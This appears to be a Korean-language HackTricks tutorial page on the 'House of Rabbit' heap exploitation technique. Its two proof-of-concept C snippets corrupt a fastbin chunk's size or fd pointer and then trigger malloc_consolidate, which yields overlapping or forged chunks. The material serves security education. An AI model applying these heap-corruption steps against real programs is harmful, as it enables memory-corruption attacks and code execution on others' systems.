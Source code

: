 # House of Rabbit

{{#include ../../banners/hacktricks-training.md}}

### Requirements

1. **빠른 빈 fd 포인터 또는 크기를 수정할 수 있는 능력**: 이는 빠른 빈의 청크의 전방 포인터 또는 크기를 변경할 수 있음을 의미합니다.
2. **`malloc_consolidate`를 트리거할 수 있는 능력**: 이는 큰 청크를 할당하거나 상단 청크를 병합하여 힙이 청크를 통합하도록 강제함으로써 수행할 수 있습니다.

### Goals

1. **겹치는 청크 만들기**: 하나의 청크가 다른 청크와 겹치도록 하여 추가적인 힙 조작을 가능하게 합니다.
2. **가짜 청크 위조하기**: 할당자를 속여 힙 작업 중에 가짜 청크를 합법적인 청크로 취급하게 합니다.

## Steps of the attack

### POC 1: 빠른 빈 청크의 크기 수정

**목표**: 빠른 빈 청크의 크기를 조작하여 겹치는 청크를 만듭니다.

- **1단계: 청크 할당**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x40);  // Allocates another chunk of 0x40 bytes at 0x602050
malloc(0x10);                          // Allocates a small chunk to change the fastbin state
```
우리는 각각 0x40 바이트 크기의 두 개의 청크를 할당합니다. 이 청크는 해제되면 빠른 빈 목록에 배치됩니다.

- **2단계: 청크 해제**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
free(chunk2);  // Frees the chunk at 0x602050
```
두 청크를 해제하여 fastbin 목록에 추가합니다.

- **3단계: 청크 크기 수정**
```cpp
chunk1[-1] = 0xa1;  // Modify the size of chunk1 to 0xa1 (stored just before the chunk at chunk1[-1])
```
`chunk1`의 크기 메타데이터를 0xa1로 변경합니다. 이는 통합 중에 할당자를 속이는 중요한 단계입니다.

- **4단계: `malloc_consolidate` 트리거**
```cpp
malloc(0x1000);  // Allocate a large chunk to trigger heap consolidation
```
큰 청크를 할당하면 `malloc_consolidate` 함수가 호출되어 빠른 빈의 작은 청크가 병합됩니다. 조작된 `chunk1`의 크기로 인해 `chunk1`이 `chunk2`와 겹치게 됩니다.

병합 후, `chunk1`은 `chunk2`와 겹쳐 추가적인 악용이 가능합니다.

### POC 2: `fd` 포인터 수정

**목표**: 빠른 빈 `fd` 포인터를 조작하여 가짜 청크를 생성합니다.

- **1단계: 청크 할당**
```cpp
unsigned long* chunk1 = malloc(0x40);  // Allocates a chunk of 0x40 bytes at 0x602000
unsigned long* chunk2 = malloc(0x100); // Allocates a chunk of 0x100 bytes at 0x602050
```
**설명**: 우리는 가짜 청크를 설정하기 위해 하나는 더 작고 하나는 더 큰 두 개의 청크를 할당합니다.

- **단계 2: 가짜 청크 만들기**
```cpp
chunk2[1] = 0x31;  // Fake chunk size 0x30
chunk2[7] = 0x21;  // Next fake chunk
chunk2[11] = 0x21; // Next-next fake chunk
```
`chunk2`에 가짜 청크 메타데이터를 작성하여 더 작은 청크를 시뮬레이션합니다.

- **3단계: `chunk1` 해제**
```cpp
free(chunk1);  // Frees the chunk at 0x602000
```
**설명**: 우리는 `chunk1`을 해제하여 fastbin 목록에 추가합니다.

- **단계 4: `chunk1`의 `fd` 수정**
```cpp
chunk1[0] = 0x602060;  // Modify the fd of chunk1 to point to the fake chunk within chunk2
```
**설명**: 우리는 `chunk1`의 포워드 포인터(`fd`)를 `chunk2` 내부의 가짜 청크를 가리키도록 변경합니다.

- **단계 5: `malloc_consolidate` 트리거하기**
```cpp
malloc(5000);  // Allocate a large chunk to trigger heap consolidation
```
큰 청크를 다시 할당하면 `malloc_consolidate`가 트리거되어 가짜 청크를 처리합니다.

가짜 청크는 fastbin 목록의 일부가 되어 추가적인 악용을 위한 합법적인 청크가 됩니다.

### 요약

**House of Rabbit** 기법은 fast bin 청크의 크기를 수정하여 겹치는 청크를 생성하거나 `fd` 포인터를 조작하여 가짜 청크를 생성하는 것을 포함합니다. 이를 통해 공격자는 힙에서 합법적인 청크를 위조할 수 있어 다양한 형태의 악용이 가능해집니다. 이러한 단계를 이해하고 연습하면 힙 악용 기술이 향상됩니다.

{{#include ../../banners/hacktricks-training.md}}
